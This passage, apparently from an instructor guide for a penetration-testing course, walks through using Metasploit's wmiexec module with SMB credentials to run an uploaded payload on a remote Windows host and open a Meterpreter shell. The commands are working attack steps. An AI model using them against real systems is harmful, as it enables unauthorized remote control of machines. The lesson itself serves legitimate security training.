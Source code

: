     - **Note:** The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, switch to the WMI module:

    - `use scanner/smb/impacket/wmiexec`

8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
 
9. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - `set COMMAND C:\shell.exe`

    ![A screenshot depicts the parameters all correctly set.](Images/parameters.PNG)

10. Run the module with the command `run`. The message "Meterpreter session 1 opened" should appear, as the image shows:

    ![A screenshot depicts the results of the command.](Images/sessions.PNG)

    - **Note:** After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be open.

11. To view active sessions, type `sessions` and select the session based on the ID via the following command:

     - `sessions -i [session ID]`

    ![A screenshot depicts the results of the command.](Images/sessionid.PNG)
    
    - Point out that they now have a **Meterpreter shell**, which we will cover in the next lesson.
